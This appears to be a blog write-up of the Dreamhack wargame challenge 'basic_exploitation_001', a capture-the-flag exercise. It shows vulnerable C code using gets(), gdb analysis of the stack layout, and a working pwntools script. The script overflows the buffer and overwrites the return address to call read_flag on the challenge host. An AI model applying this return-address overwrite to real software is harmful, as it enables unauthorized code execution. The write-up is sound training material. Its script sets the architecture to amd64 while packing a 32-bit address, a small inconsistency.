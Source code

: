 ```yaml
---
layout: post
title: "[dreamhack] exploitation_001"
comments: true
category: wargame
---
```


## checksec
<img src="/assets/img/exploitation-001/checksec.png" width="600">

Only aslr and NX.<br />
Code section's address is fixed.

***

## C code
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


void read_flag() {
    system("cat /flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();

    gets(buf);

    return 0;
}
```
It's really similar to exploitation-000.<br />
The difference is this binary consists read_flag function.<br />
If we overwrite RA with read_flag function's address, then we can read flag.<br />

***

## Debug binary

<img src="/assets/img/exploitation-001/gdb.png" width="500">

In gdb, we can check buf's loacation. It is [ebp-0x80].<br />
Also, we can know read_flag's code location, because there is no PIE.<br />
read_flag's address is 0x80485b9.<br />

Payload will be consists with dummy for overwrite buf and SFP, and read_flag's address for overwrite RA.<br />

***

## Ex code

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

#r = process('./basic_exploitation_001')
r = remote('host1.dreamhack.games', 10822)

read_flag_addr = 0x80485b9

payload = b'A' * 0x80 + b'B' * 0x4 + p32(read_flag_addr)

r.sendline(payload)

r.interactive()
```